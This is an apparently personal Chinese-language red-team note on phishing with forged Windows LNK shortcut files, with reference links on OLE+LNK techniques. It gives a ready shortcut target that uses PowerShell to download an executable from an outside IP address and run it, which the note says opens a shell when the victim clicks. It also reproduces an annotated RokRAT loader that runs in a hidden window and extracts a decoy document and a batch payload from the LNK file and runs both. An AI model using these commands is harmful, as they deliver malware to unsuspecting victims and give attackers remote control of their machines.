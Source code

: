 ```yaml
---
date: 2024-06-26
---
```


# LNK伪造

## LNK+Powershell

> [疑似BITTER组织利用LNK文件的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s/TbiXJ359ZXOyQYWsfVDwGA)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)

新建一个快捷方式然后修改目标为如下信息:

```cmd
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iwr http://100.1.1.131:8000/download/local/Code.exe -outfile $env:TEMP\Code.exe;start-process $env:TEMP\Code.exe
```

![image-20240626114316470](http://cdn.ayusummer233.top/DailyNotes/202406261143196.png)

当受害者点击该快捷方式后则会调起powershell下载恶意程序并执行上线shell

![image-20240626114445251](http://cdn.ayusummer233.top/DailyNotes/202406261144336.png)

---

## Office OLE + LNK

> [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

- [Office OLE + LNK - Google Search](https://www.google.com/search?q=Office+OLE+%2B+LNK&sca_esv=93393d72ee4371e2&sxsrf=ADLYWIKiLlirDtoqCKRrQ_Fnz6WimgY8yg%3A1719480748554&ei=rDF9Zoe7IcyA1e8P5ZCjwAI&ved=0ahUKEwiHwdz5vPuGAxVMQPUHHWXICCgQ4dUDCBA&uact=5&oq=Office+OLE+%2B+LNK&gs_lp=Egxnd3Mtd2l6LXNlcnAiEE9mZmljZSBPTEUgKyBMTksyBRAhGJ8FSOEgULkDWNMdcAN4AZABAZgB0AGgAdANqgEGMS4xMS4xuAEDyAEA-AEBmAIPoALGDMICChAAGLADGNYEGEfCAgQQIxgnwgIIEAAYgAQYogTCAgUQIRigAcICCxAAGIAEGJECGIoFwgIFEAAYgATCAgYQABgWGB7CAgoQABgWGAoYHhgPwgIIEAAYFhgeGA_CAggQABgWGAoYHsICCxAAGIAEGIYDGIoFmAMAiAYBkAYFkgcENC4xMaAHmjA&sclient=gws-wiz-serp)
- [Issues in OLE link from Excel to Word for Windows - Microsoft Community](https://answers.microsoft.com/en-us/msoffice/forum/all/issues-in-ole-link-from-excel-to-word-for-windows/c93d2e18-8404-4a51-82f4-d3c0da8151da)
- [Abusing LNK "Features" for Initial Access and Persistence (v3ded.github.io)](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
- [Phishing: OLE + LNK | Red Team Notes (ired.team)](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk)

---

## APT

### ROKRAT

> [RokRAT（恶意软件家族） --- RokRAT (Malware Family) (fraunhofer.de)](https://malpedia.caad.fkie.fraunhofer.de/details/win.rokrat)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)
>
> [安全星图平台 (dbappsecurity.com.cn)](https://starmap.dbappsecurity.com.cn/blog/articles/2023/04/27/apt37-rokrat/)
>
> [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> [猎影追踪：APT37利用朝鲜政治话题针对韩国的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA%3D%3D&mid=2247496455&idx=1&sn=0e3af7d734671a41c9d796e7f33b085d&chksm=f9ed9fb8ce9a16ae8e9714f116e0812994e0e3d13eb75d05182e623372fc5b979d70cf403f39&scene=178&cur_album_id=1375769135073951745)

```cmd
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden $dirPath = Get-Location; if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; $pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
^& $pdfPath; $exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; $exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; ^& $exePath;
```

```powershell
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden 
# 获取当前路径
$dirPath = Get-Location; 
# 如果当前路径包含system32或者Program Files，则将 dirPtah 设置到临时目录
if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};
# 获取 dirPath 下文件大小为0x0001DAB452的
$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;
# Get-Contet 一次性获取 Lnkpath 对应文件开头的 65446 字节 存储到 $pdfFile
$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; 
$pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; 
# Set-Content 跳过 $pdfFile 的前 2470 字节将剩余内容 写入到 $pdfPath
sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
# 运行 $pdfPath
^& $pdfPath; 
# 一次性获取 Lnkpath 对应文件开头的 68696 字节 存储到 $exeFile
$exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; 
$exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; 
# Set-Content 跳过 $exeFile 的前 65446 字节将剩余内容 写入到 $exePath
sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; 
# 运行 $exePath
^& $exePath;
```

具体分析可以参阅 [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## 相关链接

- [钓鱼姿势汇总 - 简书 (jianshu.com)](https://www.jianshu.com/p/dcd250593698)
- TODO
  - [钓鱼攻击之：Lnk 文件钓鱼 - f_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16542156.html#tid-eeTEc7)


---





